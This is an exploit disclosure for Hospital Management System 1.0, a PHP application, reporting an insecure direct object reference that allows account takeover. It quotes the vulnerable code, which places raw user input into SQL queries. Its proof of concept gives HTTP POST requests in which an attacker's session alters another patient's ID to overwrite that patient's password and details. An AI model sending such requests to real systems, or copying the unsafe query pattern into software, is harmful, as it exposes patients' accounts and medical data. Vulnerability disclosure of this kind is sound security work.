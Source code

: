 ```yaml
---
title: Hospital Management System 1.0 Insecure Direct Object Reference / Account Takeover
published: true
---
```



- Exploit Title: Hospital Management System - IDOR + Accaunt Takeover
- Application: Hospital Management System
- Date: 27.02.2024
- Bugs: IDOR + Accaunt Takeover
- Exploit Author: SoSPiro
- Vendor Homepage: https://www.sourcecodester.com/
- Software Link: https://www.sourcecodester.com/php/16720/free-hospital-management-system-small-practices.html
- Version: 1.0
- Tested on: Windows 10 64 bit Wampserver


### Description:

This report focuses on two vulnerabilities known as "Insecure Direct Object References (IDOR)" and "Account Takeover". These vulnerabilities occur in a scenario where user input and access privileges validation is inadequate.


### Vulnerability Details:

- **Application Name**:  Hospital Management System
- **Software Link**: [Download Link](https://www.sourcecodester.com/php/16720/free-hospital-management-system-small-practices.html)
- **Vendor Homepage**: [Vendor Homepage](https://www.sourcecodester.com/)



### The vulnerability lies in the following code snippet:

```php
$sql1="update patient set pemail='$email',pname='$name',ppassword='$password',pnic='$nic',ptel='$tele',paddress='$address' where pid=$id ;";
$database->query($sql1);
echo $sql1;
$sql1="update webuser set email='$email' where email='$oldemail' ;";
$database->query($sql1);
echo $sql1;
```

In the above SQL queries, the $id value received from the user is directly included in the query and security checks are not performed. This allows exploiting another user's information. At the same time, since the user's identity is obtained from the POST data, the attacker can pass his identity as another user's identity.


## Vulnerability Description:

The vulnerabilities in Hospital Management System 1.0 involve Insecure Direct Object References (IDOR) and Account Takeover due to insufficient validation of user input and access privileges. IDOR allows attackers to manipulate user identifiers, granting unauthorized access to and modification of other users' information. This oversight also facilitates Account Takeover, enabling attackers to modify sensitive user data and potentially hijack legitimate accounts for malicious activities.



### Proof of Concept (PoC):

**Target User Information:**

```
---------------------------------
User 1:
ID: 1
Email: patient@patient.com
Password: patient
---------------------------------
User 2:
ID: 4
Email: attack@ker
Password: q1w2e3
---------------------------------
```

- User 1 Request

```
POST /Vaidya%20Mitra/vm/patient/edit-user.php HTTP/1.1
Host: localhost
Cookie: _ga=GA1.1.2080672900.1708952048; _gid=GA1.1.1833914840.1708952048; PHPSESSID=f6je8gcsm0h685mfr2g37ot8to
...
id00=1&oldemail=patient%40patient.com&email=patient%40patient.com&name=Mrs.Sunita+Dighe&nic=422201&Tele=9090909091&address=India&password=patient&cpassword=patient
```

- User 2 Request

```
POST /Vaidya%20Mitra/vm/patient/edit-user.php HTTP/1.1
Host: localhost
Cookie: PHPSESSID=4c8per12a8freilu1upich92a4
...
id00=4&oldemail=attack%40ker&email=attack%40ker&name=attack+attacker&nic=123123123&Tele=0712345677&address=attac&password=q1w2e3&cpassword=q1w2e3
```


- Attacker's Request

The attacker aims to modify the account details of "patient 1" and sends the following HTTP request:

```
POST /Vaidya%20Mitra/vm/patient/edit-user.php HTTP/1.1
Host: localhost
Cookie: PHPSESSID=4c8per12a8freilu1upich92a4
...
id00=1&oldemail=patient%40patient.com&email=patient%40patient.com&name=MRRS.Sunita+Dighe&nic=422201&Tele=9090909091&address=attac&password=q1w2e3&cpassword=q1w2e3
```


[Poc viode](https://www.youtube.com/watch?v=pmoBSnu9IYI)

### Impact and Risks:

- These security vulnerabilities pose severe risks to the integrity, confidentiality, and availability of the Hospital Management System. The identified risks include:

1. Unauthorized Access: Attackers can gain unauthorized access to sensitive user information, including personal details and medical records, leading to privacy breaches and confidentiality violations.

2. Data Modification: The ability to manipulate user data enables attackers to tamper with records, potentially causing misinformation, incorrect treatments, and compromised patient care.

3. Account Takeover: With the capability to change user credentials, attackers can hijack legitimate user accounts, leading to identity theft, fraudulent activities, and loss of trust in the system.

4. Non-compliance: Exploiting these vulnerabilities may result in non-compliance with regulatory requirements and industry standards, such as HIPAA (Health Insurance Portability and Accountability Act), exposing the organization to legal liabilities and financial penalties.


### **Risks This security vulnerability exposes user information to unauthorized access and modifications. Consequently, there are potential risks such as account takeover, privacy breaches, and non-compliance with security policies, which can lead to substantial damage and security breaches in the system.**
